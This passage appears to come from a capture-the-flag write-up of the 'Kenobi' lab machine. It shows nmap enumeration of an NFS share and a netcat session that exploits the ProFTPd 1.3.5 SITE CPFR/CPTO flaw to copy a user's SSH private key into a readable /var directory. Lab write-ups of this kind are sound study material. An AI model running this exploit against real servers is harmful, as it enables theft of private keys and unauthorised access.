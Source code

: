 - A valid username: `kenobi`
- `kenobi`'s SSH key fingerprint: `SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi`
- `kenobi`'s SSH key randomart image

# NFS Enumeration

## NFS Shares

```bash
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.112.146
  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 22:31 CDT
Nmap scan report for 10.10.112.146
Host is up (0.15s latency).

PORT STATE SERVICE
111/tcp open rpcbind
| nfs-showmount: 
|_ /var *
```

- Found NFS mount `/var`

# ProFTPd 1.3.5 Exploitation

> ProFTPd version 1.3.5 has a vulnerability that allows an unauthenticated user to copy a file from one part of the target file system to another under the privilege context of the user running ProFTPd. This is achieved by connecting to the ProFTPd (via netcat for example) and issuing a `SITE CPFR` (site copy from) command with the path of the file to copy, and then issuing a `SITE CPTO` (site copy to) command with the path to copy the file to.

For our situation, we know `kenobi` is running `ProFTPd` from the `ProFTPd` configuration file we found in the `anonymous` SMB share. We also know that he has a private SSH key at `/home/kenobi/.ssh/id_rsa`. `/var` on the target machine can be mounted over NFS. Thus, we can leverage the ProFTPd 1.3.5 vulnerability to transfer `kenobi`'s SSH private key to somewhere in `/var`, which will allow us to read it.

## Exploitating the Vulnerability

```bash
nc 10.10.112.146 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.112.146]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Once logged in as `kenobi`, read `/home/kenobi/user.txt`.
